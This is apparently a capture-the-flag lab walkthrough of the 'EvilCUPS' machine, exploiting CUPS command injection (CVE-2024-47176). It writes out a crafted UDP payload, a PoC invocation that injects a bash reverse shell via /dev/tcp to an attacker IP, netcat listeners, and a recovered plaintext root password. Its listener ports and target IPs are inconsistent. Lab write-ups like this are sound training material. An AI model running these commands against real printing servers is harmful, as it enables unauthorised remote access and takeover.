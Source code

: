 # EvilCUPS

![](Images/Card.png)

__Machine IP__: 10.10.10.160

__DATE__ : 17/10/2024

__MODE__ : Guided


# Machine Info
EvilCUPS is a Medium difficulty Linux machine that features a CUPS Command Injection Vulnerability [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176). This CVE allows remote unauthenticated users the ability to install a malicious printer on the vulnerable machine over `UDP/631`. This printer is configured to utilize [Foomatic-RIP](https://linux.die.net/man/1/foomatic-rip) which is used to process documents and where the command injection happens. In order to trigger the command execution, a document needs to be printed. The CUPS Webserver is configured to allow anonymous users access to `TCP/631`. Navigating here makes it possible to print a test page on the malicious printer and gain access as the "lp" user. This user the ability to retrieve past print jobs, one of which contains the root password to the box. 

## NMAP
```bash
nmap -sV -sC 10.10.11.40 -oA EvilCUPS.nmap

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 21:51 EDT
Nmap scan report for 10.10.11.40
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Foothold
Task 4 tells us to look for a 2024 CVE

[Rapid 7 blog](https://www.rapid7.com/blog/post/2024/09/26/etr-multiple-vulnerabilities-in-common-unix-printing-system-cups/)

CVE-2024-47176

### Testing if target is vulnerable to CVE-2024-47176

Netcat listener

```bash
nc -lnvp 444
```

Specially crafted payload


```bash
echo '0 3 http://10.10.14.3:4444/printers/SouthEastPrince' | nc -nu 10.10.11.40 631
```

Catch
```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.40] 36100
POST /printers/SouthEastPrince HTTP/1.1
Content-Length: 188
Content-Type: application/ipp
Date: Thu, 17 Oct 2024 03:17:03 GMT
Host: 10.10.14.3:4444
User-Agent: CUPS/2.4.2 (Linux 6.1.0-25-amd64; x86_64) IPP/2.0
Expect: 100-continue


.Gattributes-charsetutf-8Httributes-natural-languageen-usE
                                                          printer-uri.ipp://10.10.14.3:4444/printers/SouthEastPrinceDrequested-attributesallDmedia-col-database

```

Attack

[PoC](https://github.com/gumerzzzindo/CVE-2024-47176/)

terminal 1
```bash
nc -lnvp 1337
```

terminal 2
```bash
./evilcups.py 10.10.10.10 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'"
```

![](Images/malicious_print_job.png)

print test page and we catch the reverse shell on our terminal 1

# User

we can see user at /home/htb/user.txt

# Root

finding the first print job, we can use google and see it is stored in 

/var/spool/cups/d00001-001

```bash
less v*/s*/cu*/d*
```

we can find a password here

Br3@k-G!@ss-r00t-evilcups

```bash
ssh root@10.10.11.40
```

we are logged in as Root and have pwned the machine.

